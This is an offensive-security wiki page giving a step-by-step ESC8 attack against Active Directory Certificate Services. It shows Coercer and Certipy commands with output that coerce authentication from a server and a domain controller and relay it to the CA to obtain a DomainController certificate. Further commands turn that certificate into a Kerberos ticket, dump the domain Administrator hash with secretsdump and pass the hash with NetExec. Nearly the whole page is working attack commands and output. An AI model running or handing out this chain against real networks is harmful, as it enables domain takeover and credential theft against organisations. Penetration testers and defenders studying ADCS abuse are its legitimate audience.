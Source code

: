 ```yaml
---
title : "ESC8"
# pre : ' '
description : "ESC8 - Abuse Active Directory Certificate Services."
date : 2023-12-03T06:03:37+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## ESC8 - Abuse Active Directory Certificate Services

## Requirements

- [Coercer]({{< ref "tools/framework/coercer" %}})
- [Certipy]({{< ref "tools/other/certipy" %}})
- [Impacket]({{< ref "tools/framework/impacket" %}})
  - `secretsdump.py`
- [PKINITtools]({{< ref "tools/framework/pkinittools" %}})
  - `gettgtpkinit.py`
- [NetExec - optional]({{< ref "tools/framework/netexec" %}})

## Examples

### ESC8 from a 'random' server

**Note:** Start Certipy in relay mode before triggering authentication with Coercer.

#### Use Coercer.py to Trigger Authentication on a non-Domain Controller

- `-t` is the target server to trigger the authentication on
- `-l` is the listening host that is going to relay

```plain
$ sudo ./Coercer.py coerce -t 10.10.10.10 -u esc8-user@offsec.nl -l 10.10.10.11
Password:
[info] Starting coerce mode
[info] Scanning target 10.10.10.10
[*] DCERPC portmapper discovered ports: 49664,49665,49666,49667,49668,49669,49702,49710,49747
[+] SMB named pipe '\PIPE\eventlog' is accessible!
   [+] Successful bind to interface (82273fdc-e32a-18c3-3f78-827929dc23ea, 0.0)!
      [!] (NO_AUTH_RECEIVED) MS-EVEN──>ElfrOpenBELW(BackupFileName='\??\UNC\10.10.10.11\E4UAA0b\aa') 
Continue (C) | Skip this function (S) | Stop exploitation (X) ? c
[+] SMB named pipe '\PIPE\lsarpc' is accessible!
   [+] Successful bind to interface (c681d488-d850-11d0-8c52-00c04fd90f7e, 1.0)!
      [+] (ERROR_BAD_NETPATH) MS-EFSR──>EfsRpcAddUsersToFile(FileName='\\10.10.10.11\OrF5Mwc2w\file.txt\x00') 
```

#### Certipy in Relay Mode

```plain
$ sudo certipy relay -target 'http://CA01.offsec.nl' -ca 'CA01.offsec.nl'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting http://CA01.offsec.nl/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
OFFSEC\MGMT_SRV$
[*] Requesting certificate for 'OFFSEC\\MGMT_SRV$' based on the template 'Machine'
[*] Got certificate with DNS Host Name 'MGMT_SRV.offsec.nl'
[*] Certificate object SID is 'S-1-5-21-1234567890-123456789-09876543-56789'
[*] Saved certificate and private key to 'MGMT_SRV.pfx'
[*] Exiting...
```

### ESC8 from a Domain Controller

#### Use Coercer.py to Trigger Authentication on a Domain Controller

- `-t` is the target server to trigger the authentication on
- `-l` is the listening host that is going to relay

```plain
$ sudo ./Coercer.py coerce -t 10.10.10.10 -u esc8-user@offsec.nl -l 10.10.10.11
Password:
[info] Starting coerce mode
[info] Scanning target 10.10.10.10
[*] DCERPC portmapper discovered ports: 49664,49665,49666,49667,49668,49669,49702,49710,49747
[+] SMB named pipe '\PIPE\eventlog' is accessible!
   [+] Successful bind to interface (82273fdc-e32a-18c3-3f78-827929dc23ea, 0.0)!
      [!] (NO_AUTH_RECEIVED) MS-EVEN──>ElfrOpenBELW(BackupFileName='\??\UNC\10.10.10.11\E4UAA0b\aa') 
Continue (C) | Skip this function (S) | Stop exploitation (X) ? c
[+] SMB named pipe '\PIPE\lsarpc' is accessible!
   [+] Successful bind to interface (c681d488-d850-11d0-8c52-00c04fd90f7e, 1.0)!
      [+] (ERROR_BAD_NETPATH) MS-EFSR──>EfsRpcAddUsersToFile(FileName='\\10.10.10.11\OrF5Mwc2w\file.txt\x00') 
```

#### Certipy in Relay Mode to Certificate Authority

```plain
$ sudo certipy relay -target 'http://CA01.offsec.nl' -ca 'CA01.offsec.nl' -template DomainController 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting http://CA01.offsec.nl/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
OFFSEC\DC01$
[*] Requesting certificate for 'OFFSEC\\DC01$' based on the template 'DomainController'
[*] Got certificate with DNS Host Name 'DC01.offsec.nl'
[*] Certificate object SID is 'S-1-5-21-1234567890-123456789-09876543-56789'
[*] Saved certificate and private key to 'DC01.pfx'
[*] Exiting...
```

#### Get TGT from Certificate

```plain
$ python3 gettgtpkinit.py -cert-pfx ~/DC01.pfx "offsec.nl/DC01$" "DC01.ccache" -dc-ip 10.10.10.25
2023-12-08 16:18:33,939 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2023-12-08 04:20:13,042 minikerberos INFO     Requesting TGT'
INFO:minikerberos:Requesting TGT
2023-12-08 04:20:13,052 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2023-12-08 04:20:13,053 minikerberos INFO     12345678911
INFO:minikerberos:12345678911
2023-12-08 04:20:13,056 minikerberos INFO     Saved TGT to file
```

#### Secretsdump.py Extract Domain Administrator Hash

```plain
$ secretsdump.py -k 'offsec.nl/DC01$@DC01.offsec.nl' -debug -just-dc-user administrator -dc-ip 10.10.10.25
Impacket v0.10.0 - Copyright 2022 Fortra
Password:
[+] Using Kerberos Cache: DC01.ccache
[+] SPN CIFS/DC01.offsec.nl@offsec.nl not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for KRBTGT/offsec.nl@offsec.nl
[+] Using TGT from cache
[+] Trying to connect to KDC at 10.10.10.25
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[+] Trying to connect to KDC at 10.10.10.25
[+] Calling DRSCrackNames for administrator 
[+] Calling DRSGetNCChanges for {} 
[+] Entering NTDSHashes.__decryptHash
[+] Decrypting hash for user: CN=Administrator,CN=Users,DC=OFFSEC,DC=local
offsec.nl\Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
[...]
[*] Cleaning up... 
```

#### NetExec Check Privileges

```plain
$ nxc smb 10.10.10.25 -u administrator -H :97f2592347d8fbe42be381726ff9ea83             
SMB         10.10.10.25  445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:offsec.nl) (signing:True) (SMBv1:False)
SMB         10.10.10.25  445    DC01             [+] offsec.nl\administrator:97f2592347d8fbe42be381726ff9ea83 (Pwn3d!)
```

## URL list

- [Crowe.com - Exploiting AD CS: A quick look at ESC1 and ESC8](https://www.crowe.com/cybersecurity-watch/exploiting-ad-cs-a-quick-look-at-esc1-esc8)
